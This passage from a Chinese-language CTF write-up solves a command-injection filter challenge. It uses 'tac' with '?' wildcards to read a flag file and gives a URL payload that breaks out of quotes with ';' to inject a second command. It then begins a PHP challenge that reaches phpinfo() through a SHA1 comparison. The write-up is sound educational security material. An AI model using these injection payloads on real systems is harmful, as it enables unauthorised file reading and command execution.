 注意没过滤 `?`, 不过把常用的 bypass 给禁了, 唯独没禁用 `tac`, 这里就需要用到这个指令, 简单来说这个指令就是 `cat` 的倒序输出版(不是完全颠倒, 是从最后一行开始往前输出), 支持 `cat` 类似的 `?` 匹配, 例如

```bash
cat /fla?
tac /f?ag
```

因此这题传入 `tac /f?ag` 即可;

注意到虽然 ban 了 `|`, `&` 但是放了 `;`, ` `, 并且没 ban `"` :

```
?comm1=index.php";tac /fl?g"&comm2=1
```

![53-1.png](53-1.png)

## [极客大挑战 2020 WEB] Roamphp1-Welcome

### 题解

打开网站提示 `405 Method Not Allowed`, 换 POST, 出现源码:

```php
 <?php
error_reporting(0);
if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
header("HTTP/1.1 405 Method Not Allowed");
exit();
} else {
    
    if (!isset($_POST['roam1']) || !isset($_POST['roam2'])){
        show_source(__FILE__);
    }
    else if ($_POST['roam1'] !== $_POST['roam2'] && sha1($_POST['roam1']) === sha1($_POST['roam2'])){
        phpinfo();  // collect information from phpinfo!
    }
} 
```
